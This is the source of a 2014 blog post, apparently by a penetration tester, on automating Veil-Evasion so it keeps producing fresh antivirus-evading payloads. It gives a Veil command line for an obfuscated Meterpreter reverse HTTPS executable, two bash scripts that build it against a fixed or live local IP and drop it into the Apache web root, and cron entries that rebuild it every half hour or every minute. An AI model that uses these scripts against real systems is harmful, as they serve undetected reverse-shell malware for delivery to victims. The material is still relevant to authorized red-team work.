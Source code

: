 ```yaml
---
layout: post
title: Fresh Veil- Automatically Generating Payloads
category:
year: 2014
month: 2
day: 17
published: true
summary: Keep your Veil payloads fresh to avoid getting caught by signatures
image: 
---
```

     
<div class="row">  
     <div class="span9 columns">

<p>Veil is awesome - it makes payload generation easy and supports a wide variety of payloads with new ones being dropped pretty often.</p>

<p>Getting caught by AV during a test is not awesome.</p>
<p>Being caught because the target’s AV had a signature hit on you is even worse. Because YOU (the tester) messed up. You didn’t take the extra few minutes to regenerate a payload. I’ve been there and I’m sure you’ve been there. It sucks and you feel silly.</p>

<p>The solution? Use Veil’s command line options and cron to regenerate payloads every 30 minutes. </p>

<br><p><b>Server Build</b></p>
<p>This is the basic build. Let’s assume that you have a server that you catch social engineering payloads on. Static IP (or domain).</p>
<p>For setup, make a directory called <code>/root/payload_temp</code> and use git to clone Veil-Evasion into that folder. Run through the setup script in Veil-Evasion/setup. </p>
<p>The <code>/root/payload_temp</code> directory is where we’ll generate the payload before we move it to our apache root.</p><br>

<p>Let’s take a look at Veil’s command line options:</p>
<img src="{{site.url}}/assets/freshveil1.png" style="height:400px"><br><br>

<p>Using these options, you can generate any payload from within Veil from the command line.</p>

<br><p>For the example code below we’ll make a <code>python/meterpreter/rev_https_contained</code> payload:</p>

```python
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 --overwrite
```

<p>The <code>--overwrite</code> is necessary here to ensure that the new payloads replace the old ones. You will of course need to replace the X.X.X.X with your WAN IP or local IP if running it within a private network.</p>

<p>With the Veil command figured out, create a bash script called <code>/payload_gen.sh</code> to generate the payload and move it to the apache root:</p>

<pre><code>#!/bin/bash
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 -o /root/payload_temp/FreshPayload --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe</code></pre>

Now we’ll add this to the cron:
<p><code>crontab -e</code> will bring up the cron settings. In the first two blank lines enter:
<pre><code>10 * * * * /payload_gen.sh
40 * * * * /payload_gen.sh</code></pre>

<p>This will make the script run twice an hour at the 10 and 40 minute marks. You can heavily customize the timing options using cron, but this is a basic implementation.

<p>That’s it. Easy, right?
<p>Good. Moving on…


<br><br><p><b>Variable IP Auto-Generation</b></p>
<p>Chances are, you’re in and out of networks that you’re testing and it’s no fun to find a possible vector that needs a binary and then have to go through the whole process of generating the payload before you can test.

<p>So <code>payload_gen2.sh</code> will pull the active eth0 IPv4 address and plug it into the same script:

<pre><code>#!/bin/bash
ADDY=$(ifconfig eth0 | awk '/inet addr/{print $2}' | awk -F':' '{print $2}')
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=$ADDY LPORT=443 --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe</code></pre>

<p>For the crontab on this payload, I personally have it regenerate every minute so I never need to think about whether I got a new IP since it generated. Edit crontab using <code>crontab -e</code> and place the following code at the bottom:
<pre><code>* * * * * /payload_gen2.sh</code></pre>

<p>You could, of course, stack multiple payloads of different types (perhaps with some additional post-processing) in this script so you get a full, fresh set of all of the many payload types that Veil can generate. All ready for you in your Apache folder.




     </div>
     </div>
     <div id="disqus_thread"></div>
<script type="text/javascript">
    /* * * CONFIGURATION VARIABLES * * */
    var disqus_shortname = 'bluscreenofjeff';
    
    /* * * DON'T EDIT BELOW THIS LINE * * */
    (function() {
        var dsq = document.createElement('script'); dsq.type = 'text/javascript'; dsq.async = true;
        dsq.src = '//' + disqus_shortname + '.disqus.com/embed.js';
        (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(dsq);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript" rel="nofollow">comments powered by Disqus.</a></noscript>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
<script>
  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
  })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

  ga('create', 'UA-61938642-1', 'auto');
  ga('send', 'pageview');

</script>